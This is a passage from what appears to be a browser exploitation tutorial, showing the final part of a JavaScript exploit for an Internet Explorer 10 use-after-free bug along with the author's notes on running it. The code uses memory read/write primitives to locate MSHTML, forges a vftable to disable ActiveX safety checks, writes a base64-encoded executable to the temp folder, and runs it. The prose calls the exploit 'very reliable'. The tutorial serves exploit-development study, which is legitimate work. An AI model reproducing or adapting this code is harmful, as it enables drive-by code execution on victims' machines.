// Now we need to determine the base address of MSHTML. We can create an HTML
// object and write its reference to the address 0x0c0af000-4 which corresponds
// to the last element of one of our arrays.
// Let's find the array at 0x0c0af000-4.
for (i = 0x200; i < 0x200 + 0x400; ++i)
a[i][0x3bf7] = 0;
// We write 3 in the last position of one of our arrays. IE encodes the number x
// as 2*x+1 so that it can tell addresses (dword aligned) and numbers apart.
// Either we use an odd number or a valid address otherwise IE will crash in the
// following for loop.
write(0x0c0af000-4, 3);
leakArray = 0;
for (i = 0x200; i < 0x200 + 0x400; ++i) {
if (a[i][0x3bf7] != 0) {
leakArray = a[i];
break;
}
}
if (leakArray == 0) {
// alert("Can't find leakArray!");
window.location.reload();
return;
}
function get_addr(obj) {
leakArray[0x3bf7] = obj;
return read(0x0c0af000-4, obj);
}
// Back to determining the base address of MSHTML...
// Here's the beginning of the element div:
// +----- jscript9!Projection::ArrayObjectInstance::`vftable'
// v
// 70792248 0c012b40 00000000 00000003
// 73b38b9a 00000000 00574230 00000000
// ^
// +---- MSHTML!CBaseTypeOperations::CBaseFinalizer = mshtml + 0x58b9a
var addr = get_addr(document.createElement("div"));
mshtml = read(addr + 0x10) - 0x58b9a;
// vftable
// +-----> +------------------+
// | | |
// | | |
// | 0x10:| jscript9+0x10705e| --> "XCHG EAX,ESP | ADD EAX,71F84DC0 |
// | | | MOV EAX,ESI | POP ESI | RETN"
// | 0x14:| jscript9+0xdc164 | --> "LEAVE | RET 4"
// | +------------------+
// object |
// EAX ---> +-------------------+ |
// | vftptr |-----+
// | jscript9+0x15f800 | --> "XOR EAX,EAX | RETN"
// | jscript9+0xf3baf | --> "XCHG EAX,EDI | RETN"
// | jscript9+0xdc361 | --> "LEAVE | RET 4"
// +-------------------+
var old = read(mshtml+0xc555e0+0x14);
write(mshtml+0xc555e0+0x14, jscript9+0xdc164); // God Mode On!
var shell = new ActiveXObject("WScript.shell");
write(mshtml+0xc555e0+0x14, old); // God Mode Off!
addr = get_addr(ActiveXObject);
var pp_obj = read(read(addr + 0x28) + 4) + 0x1f0; // ptr to ptr to object
var old_objptr = read(pp_obj);
var old_vftptr = read(old_objptr);
// Create the new vftable.
var new_vftable = new Int32Array(0x708/4);
for (var i = 0; i < new_vftable.length; ++i)
new_vftable[i] = read(old_vftptr + i*4);
new_vftable[0x10/4] = jscript9+0x10705e;
new_vftable[0x14/4] = jscript9+0xdc164;
var new_vftptr = read(get_addr(new_vftable) + 0x1c); // ptr to raw buffer of new_vftable
// Create the new object.
var new_object = new Int32Array(4);
new_object[0] = new_vftptr;
new_object[1] = jscript9 + 0x15f800;
new_object[2] = jscript9 + 0xf3baf;
new_object[3] = jscript9 + 0xdc361;
var new_objptr = read(get_addr(new_object) + 0x1c); // ptr to raw buffer of new_object
function GodModeOn() {
write(pp_obj, new_objptr);
}
function GodModeOff() {
write(pp_obj, old_objptr);
}
// content of exe file encoded in base64.
runcalc = 'TVqQAAMAAAAEAAAA//8AALgAAAAAAA <snipped> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA';
function createExe(fname, data) {
GodModeOn();
var tStream = new ActiveXObject("ADODB.Stream");
var bStream = new ActiveXObject("ADODB.Stream");
GodModeOff();
tStream.Type = 2; // text
bStream.Type = 1; // binary
tStream.Open();
bStream.Open();
tStream.WriteText(data);
tStream.Position = 2; // skips the first 2 bytes in the tStream (what are they?)
tStream.CopyTo(bStream);
var bStream_addr = get_addr(bStream);
var string_addr = read(read(bStream_addr + 0x50) + 0x44);
write(string_addr, 0x003a0043); // 'C:'
write(string_addr + 4, 0x0000005c); // '\'
try {
bStream.SaveToFile(fname, 2); // 2 = overwrites file if it already exists
}
catch(err) {
return 0;
}
tStream.Close();
bStream.Close();
return 1;
}
function decode(b64Data) {
var data = window.atob(b64Data);
// Now data is like
// 11 00 12 00 45 00 50 00 ...
// rather than like
// 11 12 45 50 ...
// Let's fix this!
var arr = new Array();
for (var i = 0; i < data.length / 2; ++i) {
var low = data.charCodeAt(i*2);
var high = data.charCodeAt(i*2 + 1);
arr.push(String.fromCharCode(low + high * 0x100));
}
return arr.join('');
}
fname = shell.ExpandEnvironmentStrings("%TEMP%\\runcalc.exe");
if (createExe(fname, decode(runcalc)) == 0) {
// alert("SaveToFile failed");
window.location.reload();
return 0;
}
shell.Exec(fname);
// alert("All done!");
})();
</script>
</head>
<body>
</body>
</html>
As always, I snipped runcalc. You can download the full code from here: code4.
Load the page in IE using SimpleServer and everything should work just fine! This exploit is very reliable. In fact, even when IE crashes because something went wrong with the UAF bug, IE will reload the page. The user will see the crash but that’s not too serious. Anyway, the event of a crash is reasonably rare.
Internet Explorer 10 32-bit and 64-bit
There are two versions of IE 10 installed: the 32-bit and the 64-bit version. Our exploit works with both of them because while the iexplore.exe module associated with the main window is different (one is a 32-bit and the other a 64-bit executable), the iexplore.exe module associated with the tabs is the same 32-bit executable in both cases. You can verify this just by looking at the path of the two executable in the Windows Task Manager.